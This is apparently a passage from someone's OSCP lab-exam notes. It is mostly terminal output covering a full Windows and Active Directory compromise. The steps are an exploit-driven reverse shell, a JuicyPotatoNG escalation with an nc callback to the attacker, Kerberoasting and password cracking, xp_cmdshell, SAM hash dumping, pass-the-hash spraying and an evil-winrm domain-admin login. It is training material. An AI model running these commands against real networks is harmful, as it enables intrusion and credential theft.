Content-Length: 14


                                                                                                                                                                                  
┌──(kali㉿kali)-[~/Desktop/Pen200/OSCP_B/192.168.x.151]
└─$ python3 47799.py 192.168.130.151 "C:\\windows\\temp\\reverse.exe" 
Authenticated


```
```
┌──(kali㉿kali)-[~/Desktop/Pen200/OSCP_B/192.168.x.151]
└─$ nc -lvnp 4444                                                                                                   
listening on [any] 4444 ...
connect to [192.168.45.234] from (UNKNOWN) [192.168.130.151] 49827
Microsoft Windows [Version 10.0.19043.2130]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files\FreeSWITCH>whoami /all
whoami /all

USER INFORMATION
----------------

User Name  SID                                          
========== =============================================
oscp\chris S-1-5-21-861469990-2748031089-4170181761-1001


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

* Privilege Escalation
`SeImpersonatePrivilege`
```
c:\Users\chris>.\JuicyPotatoNG.exe -t * -p "nc.exe" -a "192.168.45.234 4445 -e powershell"
.\JuicyPotatoNG.exe -t * -p "nc.exe" -a "192.168.45.234 4445 -e powershell"


         JuicyPotatoNG
         by decoder_it & splinter_code

[*] Testing CLSID {854A20FB-2D44-457D-992F-EF13785D2B51} - COM server port 10247 
[+] authresult success {854A20FB-2D44-457D-992F-EF13785D2B51};NT AUTHORITY\SYSTEM;Impersonation
[+] CreateProcessAsUser OK
[+] Exploit successful! 

c:\Users\chris>
```
```
┌──(kali㉿kali)-[~/Desktop/Pen200/OSCP_B/192.168.x.151]
└─$ nc -lvnp 4445                                                                                                   
listening on [any] 4445 ...
connect to [192.168.45.234] from (UNKNOWN) [192.168.130.151] 49879
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\> whoami
whoami
nt authority\system
PS C:\> 
```

## AD DOMAIN
1. AS-REP Roasting
```
┌──(kali㉿kali)-[~/Desktop/Pen200/OSCP_B/192.168.x.147]
└─$ sudo impacket-GetNPUsers -request -outputfile hashes.asreproast -dc-ip 10.10.90.146 oscp.exam/Eric.Wallows
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Password:
No entries found!
```
2. Kerberoasting
nxc for "smb", "winrm", "rdp" all fail 
```
┌──(kali㉿kali)-[~/Desktop/Pen200/OSCP_B/192.168.x.147]
└─$ sudo impacket-GetUserSPNs -request -outputfile hashes.kerberoast -dc-ip 10.10.90.146 oscp.exam/Eric.Wallows                                     
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Password:
ServicePrincipalName  Name     MemberOf  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------  --------  --------------------------  --------------------------  ----------
MSSQL/MS02.oscp.exam  sql_svc            2022-11-10 03:03:18.456165  2022-11-10 06:15:51.783016             
HTTP/MS01.oscp.exam   web_svc            2022-11-11 02:11:19.795439  2022-12-01 06:08:56.803710             


[-] CCache file is not found. Skipping...
```
```
┌──(kali㉿kali)-[~/Desktop/Pen200/OSCP_B/192.168.x.147]
└─$ sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best66.rule --force

$krb5tgs$23$*web_svc$OSCP.EXAM$oscp.exam/web_svc*$622e7edbdb8b381e1cf2d69eefcee1f3$...:Diamond1
$krb5tgs$23$*sql_svc$OSCP.EXAM$oscp.exam/sql_svc*$27f5cfde42982a9262c41afc4d9590de$...:Dolphin1
```

3. mssql
nxc mssql somehow failed
```
┌──(kali㉿kali)-[~/Desktop/Pen200/OSCP_B]
└─$ nxc mssql 10.10.90.0/24 -u sql_svc -p Dolphin1 -d oscp.exam
Running nxc against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
```
cannot execute payload to gain reverse shell, but found local window backup folder
```
┌──(kali㉿kali)-[~/Desktop/Pen200/OSCP_B/192.168.x.147]
└─$ impacket-mssqlclient oscp.exam/sql_svc:Dolphin1@10.10.90.148 -windows-auth 
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(MS02\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(MS02\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2019 RTM (15.0.2000)
[!] Press help for extra shell commands
SQL (OSCP\sql_svc  dbo@master)> xp_cmdshell dir 'c:\windows\temp'
ERROR(MS02\SQLEXPRESS): Line 1: Incorrect syntax near '\'.
SQL (OSCP\sql_svc  dbo@master)> xp_cmdshell dir 'c:\\windows\\temp'
ERROR(MS02\SQLEXPRESS): Line 1: Incorrect syntax near '\'.
SQL (OSCP\sql_svc  dbo@master)> xp_cmdshell dir c:\\windows\\temp
output                           
------------------------------   
The specified path is invalid.   
NULL                             
SQL (OSCP\sql_svc  dbo@master)> xp_cmdshell dir c:\\windows\\
output                           
------------------------------   
The specified path is invalid.   
NULL                             
SQL (OSCP\sql_svc  dbo@master)> xp_cmdshell dir c:\
output                                                       
----------------------------------------------------------   
 Volume in drive C has no label.                             
 Volume Serial Number is 68A4-24C5                           
NULL                                                         
 Directory of c:\                                            
NULL                                                         
02/08/2026  05:18 AM             2,691 output.txt            
12/07/2019  01:14 AM    <DIR>          PerfLogs              
12/20/2022  01:57 AM    <DIR>          Program Files         
11/10/2022  02:52 AM    <DIR>          Program Files (x86)   
12/01/2022  03:15 AM    <DIR>          Users                 
12/20/2022  01:58 AM    <DIR>          Windows               
04/04/2022  05:00 AM    <DIR>          windows.old           
               1 File(s)          2,691 bytes                
               6 Dir(s)  10,189,697,024 bytes free
               
SQL (OSCP\sql_svc  dbo@master)> xp_cmdshell powershell Get-ChildItem -Path C:\windows.old\ -Include SAM, SYSTEM -Force -Recurse -ErrorAction SilentlyContinue
output                                                                             
--------------------------------------------------------------------------------   
NULL                                                                               
NULL                                                                               
    Directory: C:\windows.old\Windows\System32                                     
NULL                                                                               
NULL                                                                               
Mode                 LastWriteTime         Length Name                                                                    
----                 -------------         ------ ----                                                                    
-a----          4/4/2022   6:00 AM          57344 SAM                                                                     
-a----          4/4/2022   6:00 AM       11636736 SYSTEM 

SQL (OSCP\sql_svc  dbo@master)> download C:\windows.old\Windows\System32\SAM ./
[+] File exists, downloading...
[+] Writing file to disk...
[-] Unhandled Exception: [Errno 21] Is a directory: './'
SQL (OSCP\sql_svc  dbo@master)> download C:\windows.old\Windows\System32\SAM ./SAM
[+] File exists, downloading...
[+] Writing file to disk...
[+] Downloaded
SQL (OSCP\sql_svc  dbo@master)> download C:\windows.old\Windows\System32\SYSTEM ./SYSTEM
[+] File exists, downloading...
[+] Writing file to disk...
[+] Downloaded
```
save hasfes to "backupHash"
```
┌──(kali㉿kali)-[~/Desktop/Pen200/OSCP_B/10.10.x.148]
└─$ impacket-secretsdump -sam SAM -system SYSTEM LOCAL
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x8bca2f7ad576c856d79b7111806b533d
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:acbb9b77c62fdd8fe5976148a933177a:::
tom_admin:1001:aad3b435b51404eeaad3b435b51404ee:4979d69d4ca66955c075c41cf45f24dc:::
Cheyanne.Adams:1002:aad3b435b51404eeaad3b435b51404ee:b3930e99899cb55b4aefef9a7021ffd0:::
David.Rhys:1003:aad3b435b51404eeaad3b435b51404ee:9ac088de348444c71dba2dca92127c11:::
Mark.Chetty:1004:aad3b435b51404eeaad3b435b51404ee:92903f280e5c5f3cab018bd91b94c771:::
[*] Cleaning up... 
```
```
┌──(kali㉿kali)-[~/Desktop/Pen200/OSCP_B/10.10.x.148]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt backupHash            
Warning: detected hash type "LM", but the string is also recognized as "NT"
Use the "--format=NT" option to force loading these as that type instead
Using default input encoding: UTF-8
Using default target encoding: CP850
Loaded 1 password hash (LM [DES 256/256 AVX2])
No password hashes left to crack (see FAQ)

┌──(kali㉿kali)-[~/Desktop/Pen200/OSCP_B/10.10.x.148]
└─$ cat ~/.john/john.pot
$keepass$*2*60*0*ed890395c5503e50453897e48fd2d79ece2ae3466b51b6fb941cd413f5c89b43*3edacb91f15bae05d3fd546f201cd8924676b662f6101ba57155e0f4aeae9b61*7a963146ec300519645fbc90ca4e258d*90939579da95cd23a9c90aef5a7a507d7c9ee647ed47c0fa05729a1262d7d73e*e97f9fe2f7a1efe24b054dfcb47e8edab5dd7eb96c5731f32e64a9d3a1db5dcf:mercedes1
$keepass$*2*60*0*1a571154c68c65dc71d6bda645b1fc5132dd945c6a1380526e559a8deeefc235*af924f36b9128207e2e138fe7a47c8dfb7272ea68f549ef2d33e8b2bd26d68c7*3e526ce65982ff5ca11465ed0bd11a4f*12f7b280e61341aee2e527a96ba687984c58377eb16472c600123d11fa560e31*a2335d1597fdd70dcd53d96e8de2278cb705639a2a79fe51c130b5b15752d14a:destiny1
$6$mLeH93zkfkuzUYUI$3.xc5pEK0LN5StLw7AA205ApwsJpXc15yh75qN7BlQ8/JSvkhI0ZJ/dawU8cl1HJ02NvbVuCPLJ9lQvluAX5e0:123456
$2a$10$fCOiMky4n5hCJx3cpsG20Od4wHtlkCLKmO6VLobJNRIg9ooHTkgjK:password
$LM$aad3b435b51404ee:
$NT$31d6cfe0d16ae931b73c59d7e0c089c0:
```
```
┌──(kali㉿kali)-[~/Desktop/Pen200/OSCP_B/10.10.x.148]
└─$ nxc smb 10.10.90.0/24 -u userName -H backupHash --continue-on-success            
SMB         10.10.90.146    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:oscp.exam) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.10.90.147    445    MS01             [*] Windows 10 / Server 2019 Build 19041 x64 (name:MS01) (domain:oscp.exam) (signing:False) (SMBv1:None)
SMB         10.10.90.146    445    DC01             [-] oscp.exam\Administrator:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE 
SMB         10.10.90.146    445    DC01             [-] oscp.exam\Guest:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_ACCOUNT_DISABLED 
SMB         10.10.90.146    445    DC01             [-] oscp.exam\krbtgt:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE 
SMB         10.10.90.146    445    DC01             [-] oscp.exam\celia.almeda:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE 
SMB         10.10.90.146    445    DC01             [-] oscp.exam\tom.kinney:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE 
SMB         10.10.90.146    445    DC01             [-] oscp.exam\tom_admin:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE 
SMB         10.10.90.148    445    MS02             [*] Windows 10 / Server 2019 Build 19041 x64 (name:MS02) (domain:oscp.exam) (signing:False) (SMBv1:None)
.
.
.
SMB         10.10.90.146    445    DC01             [+] oscp.exam\tom_admin:4979d69d4ca66955c075c41cf45f24dc (Pwn3d!)
.
.
.
```
```
┌──(kali㉿kali)-[~/Desktop/Pen200/OSCP_B/10.10.x.148]
└─$ evil-winrm -i 10.10.90.146 -u tom_admin -H 4979d69d4ca66955c075c41cf45f24dc       
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\tom_admin\Documents> whoami /all

USER INFORMATION
----------------

User Name      SID
============== ==============================================
oscp\tom_admin S-1-5-21-2610934713-1581164095-2706428072-1108


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                           Attributes
=========================================== ================ ============================================= ===============================================================
Everyone                                    Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                      Alias            S-1-5-32-544                                  Mandatory group, Enabled by default, Enabled group, Group owner
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
OSCP\Domain Admins                          Group            S-1-5-21-2610934713-1581164095-2706428072-512 Mandatory group, Enabled by default, Enabled group
OSCP\Denied RODC Password Replication Group Alias            S-1-5-21-2610934713-1581164095-2706428072-572 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level        Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```
